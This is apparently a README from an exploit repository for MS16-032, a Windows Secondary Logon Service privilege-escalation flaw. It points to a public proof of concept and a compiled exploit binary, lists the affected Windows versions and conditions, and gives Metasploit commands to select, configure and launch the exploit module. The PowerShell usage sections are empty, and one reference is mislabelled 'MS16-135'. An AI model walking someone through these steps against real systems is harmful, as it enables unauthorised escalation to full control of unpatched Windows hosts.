



# MS16-032

- The POC of MS16-032 was from [exp-db](https://www.exploit-db.com/exploits/39719/)
- The exp(ms16-032.exe) was from [@khr0x40sh](https://github.com/khr0x40sh/ms16-032)

Vulnerability reference:
 * [MS16-135](https://technet.microsoft.com/en-us/library/security/ms16-032.aspx)
 * [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099)
 
## Targets
- Windows x86
- Windows x64

### Usage of MS16-032.ps1





### Windows 10



***

## Use on msf

This module exploits the lack of sanitization of standard handles in Windows' Secondary Logon Service. The vulnerability is known to affect versions of Windows 7-10 and 2k8-2k12 32 and 64 bit. This module will only work against those versions of Windows with Powershell 2.0 or later and systems with two or more CPU cores.

```
 msf > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
 msf exploit(ms16_032_secondary_logon_handle_privesc) > show targets
        ...targets...
 msf exploit(ms16_032_secondary_logon_handle_privesc) > set TARGET <target-id>
 msf exploit(ms16_032_secondary_logon_handle_privesc) > show options
        ...show and set options...
 msf exploit(ms16_032_secondary_logon_handle_privesc) > exploit  
```
